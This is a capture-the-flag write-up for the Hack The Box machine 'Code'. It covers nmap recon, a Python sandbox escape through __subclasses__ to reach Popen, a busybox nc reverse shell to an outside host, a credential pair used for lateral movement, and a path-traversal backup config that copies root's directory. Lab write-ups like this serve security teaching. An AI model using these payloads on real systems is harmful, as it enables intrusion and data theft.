---
title: 'HTB-Code'
published: 2025-07-10
draft: false
toc: true
tags: ['Symlinks', 'python']
---

---
```
Scope:
10.10.11.62
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -vvvv -p- -T5 --min-rate=5000 -Pn code.htb

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 5000/TCP - HTTP



I tried to run a reverse shell right away but it would not let me:



I went ahead and created an account:



```
test
test
```

After a lot of trial and error I found that this nifty piece of code returned a different error:

```python
print((()).__class__.__bases__[0].__subclasses__())
```



Naturally I was not going to go over it all by hand so I opened up `caido` to view the request differently:





So in order to quickly count it I inserted the response inside a `response.txt` file, and wrote a `python` script to go over the file and find `popen`:

```python
import json
import re

with open('response.txt') as f:
    data = json.load(f)

output = data['output']

# Match whole class entry, not just class name
class_entries = re.findall(r"<class '([^']+)'>", output)

for idx, name in enumerate(class_entries):
    if 'popen' in name.lower():
        print(f'Found at index: {idx}')
        print(f'Class name: {name}')
        break
else:
    print('popen not found.')
```

This gave me the following output:



I tried it in the web app but it was off by 1:

```python
raise Exception((()).__class__.__bases__[0].__subclasses__()[317].__name__)
```



### Reverse Shell

Now I had to modify the payload in such a way that it would give me a reverse shell.

```python
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](
    "bash -c 'busybox nc 10.10.14.17 80 -e bash'", shell=True, stdout=-1).communicate()))
```

I then clicked **Run** and checked my listener.

# Foothold
## Shell as app-production



I got a shell, let's start enum.

### user.txt



## Enumeration







```
martin
nafeelswordsmaster
```

Time to move laterally.

## Lateral Movement





# Privilege Escalation
## Symlinks 

So in order to steal all info from *root* we can use the following script:

```bash
# symlink script to steal everything from *root* and zip it up
cat > root-steal.json << EOF  
{  
"destination": "/home/martin/",  
"multiprocessing": true,  
"verbose_log": true,  
"directories_to_archive": [  
"/home/....//root/"  
]  
}  
EOF
```



As soon as we untar the folder we can access anything from *root*'s directory:



### root.txt




---